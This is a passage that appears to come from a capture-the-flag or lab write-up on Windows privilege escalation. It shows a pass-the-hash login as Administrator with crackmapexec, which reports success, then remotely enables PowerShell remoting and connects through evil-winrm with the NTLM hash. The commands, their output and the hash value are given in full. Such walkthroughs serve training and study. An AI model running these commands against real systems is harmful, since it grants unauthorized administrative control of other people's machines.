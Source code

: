 ![](../../attachment/5b3d3e012f4f0f89040e304820709ee9.png)

- Check if Pass The Hash is successful
- Enable WINRM to be able to remote access with **evil-winrm**

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ cme smb 10.10.114.198 -u Administrator -H "8f81ee5558e2d1205a84d07b0e3b34f5" -X "Enable-PSRemoting -Force"
SMB         10.10.114.198   445    WPRIVESC2        [*] Windows 10.0 Build 17763 x64 (name:WPRIVESC2) (domain:WPRIVESC2) (signing:False) (SMBv1:False)
SMB         10.10.114.198   445    WPRIVESC2        [+] WPRIVESC2\Administrator:8f81ee5558e2d1205a84d07b0e3b34f5 (Pwn3d!)
SMB         10.10.114.198   445    WPRIVESC2        [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.114.198   445    WPRIVESC2        [+] Executed command
SMB         10.10.114.198   445    WPRIVESC2        WinRM has been updated to receive requests.
SMB         10.10.114.198   445    WPRIVESC2        WinRM service type changed successfully.
SMB         10.10.114.198   445    WPRIVESC2        WinRM service started.
SMB         10.10.114.198   445    WPRIVESC2
SMB         10.10.114.198   445    WPRIVESC2        WinRM has been updated for remote management.
SMB         10.10.114.198   445    WPRIVESC2        Configured LocalAccountTokenFilterPolicy to grant administrative rights remotely to local users.
```

Connect via WINRM service

```bash
evil-winrm -i 10.10.114.198 -u Administrator -H "8f81ee5558e2d1205a84d07b0e3b34f5"
```
